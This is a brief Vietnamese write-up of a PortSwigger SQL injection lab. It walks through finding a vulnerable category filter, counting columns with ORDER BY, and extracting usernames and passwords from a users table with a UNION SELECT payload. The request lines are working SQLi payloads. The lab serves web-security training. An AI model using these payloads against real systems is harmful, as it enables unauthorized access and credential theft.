 # [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Lỗ hổng: Phía server không có phòng thủ với SQLi, Sử dụng UNION để lấy dữ liệu từ bảng khác.


quá trình:
1. Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
	- `GET /filter?category=Accessories HTTP/1.1`
2. Kiểm tra SQLi:
	- `GET /filter?category=' HTTP/1.1`
	- ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3. Sử dụng UNION để kiểm tra số cột:
	- Gửi request đến intruder và test với payload từ 1 đến 10
	- `GET /filter?category='+ORDER+BY+§§-- HTTP/1.1`
	- Kết quả: ![8fe46860956051009997c1633e8f4cd8.png](../../../../../../_resources/8fe46860956051009997c1633e8f4cd8.png)
	- Lỗi từ số 3 => có 2 cột.
4. Dựa vào đề bài: The database contains a different table called `users`, with columns called `username` and `password`. Tạo SQLi:
	- Cùng số cột với bảng của query gốc =>
	- `GET /filter?category='UNION+SELECT+*+FROM+users-- HTTP/1.1`
Kết quả:![d19b0ccbdec30db0e5c738a3c72a2c7e.png](../../../../../../_resources/d19b0ccbdec30db0e5c738a3c72a2c7e.png)
5. Đăng nhập với tài khoản admin => Lab Solved